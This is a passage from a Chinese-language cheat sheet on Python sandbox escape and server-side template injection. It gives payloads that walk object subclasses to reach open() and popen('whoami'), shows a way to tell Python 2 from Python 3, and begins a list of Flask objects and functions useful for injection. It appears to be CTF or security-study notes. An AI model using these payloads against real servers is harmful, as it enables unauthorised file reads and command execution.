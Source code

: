 ```python
__builtins__ 196 <class 'contextlib._GeneratorContextManagerBase'>
__builtins__ 197 <class 'contextlib._BaseExitStack'>
```

Python 3 的利用点主要在 `__builtins__` 中 (通过 eval 导入模块), 方法同上

open 和 popen 也能利用

```python
# open
''.__class__.__mro__[-1].__subclasses__()[125].__init__.__globals__['open']('d:/test.txt').read()

# popen
''.__class__.__mro__[-1].__subclasses__()[143].__init__.__globals__['popen']('whoami').read()
```

### 判断 Python 版本

```python
''.__class__.__mro__[-1].__subclasses__()
```

Python 2 开头几行

```python
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>
 ......
 <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>
 ......
```

Python 3 开头几行

```python
[<class 'type'>, <class 'async_generator'>, <class 'int'>, <class 'bytearray_iterator'>, <class 'bytearray'>, <class 'bytes_iterator'>, <class 'bytes'>...
```

对比一下

Python 2 存在 `<type xxx>` 和 `<class xxx>`, 而 Python 3 只有 `<class xxx>`

Python 3 有 `async_generator`, 虽然 asyncio 是 3.5 引入的, 不过也能作为一个判断依据

Python 3 有`bytes_iterator`, 因为 bytes 类型有改动, 与 Python 2 相差较大

## 框架

一些常用框架的 tricks

### Flask

类: cycler joiner namespace config request session

函数: lipsum url_for get_flashed_messages
